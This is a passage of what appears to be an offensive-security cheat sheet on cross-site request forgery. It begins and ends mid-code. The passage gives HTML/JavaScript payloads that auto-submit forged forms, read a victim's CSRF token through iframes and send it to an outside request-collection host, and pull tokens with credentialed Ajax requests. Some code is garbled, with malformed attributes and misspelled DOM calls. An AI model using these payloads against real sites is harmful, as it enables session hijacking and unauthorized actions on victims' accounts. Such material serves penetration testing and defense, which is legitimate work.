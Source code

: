 ```html
      '  '
    )
    document.writeln("</form>")
    document.forms[0].submit.click()
  }
</script>
```

### **Steal token and send it using 2 iframes**

```html
<script>
var token;
function readframe1(){
  token = frame1.document.getElementById("profile").token.value;
  document.getElementById("bypass").token.value = token
  loadframe2();
}
function loadframe2(){
  var test = document.getElementbyId("frame2");
  test.src = "http://requestb.in/1g6asbg1?token="+token;
}
</script>

[http://google.com?param=VALUE](http://google.com?param=VALUE)

<body onload="document.forms[0].submit()">
<form id="bypass" name"bypass" method="POST" target="frame2" action="http://google.com?param=VALUE" enctype="multipart/form-data">
  <input type="text" name="username" value="z">
  <input type="checkbox" name="status" checked="">
  
  Submit

</form>
```

### **POSTSteal CSRF token with Ajax and send a post with a form**

```html
<body onload="getData()">
  <form
    id="form"
    action="http://google.com?param=VALUE"
    method="POST"
    enctype="multipart/form-data">
    
    
    
    
  </form>

  <script>
    var x = new XMLHttpRequest()
    function getData() {
      x.withCredentials = true
      x.open("GET", "http://google.com?param=VALUE", true)
      x.send(null)
    }
    x.onreadystatechange = function () {
      if (x.readyState == XMLHttpRequest.DONE) {
        var token = x.responseText.match(/name="token" value="(.+)"/)[1]
        document.getElementById("findtoken").value = token
```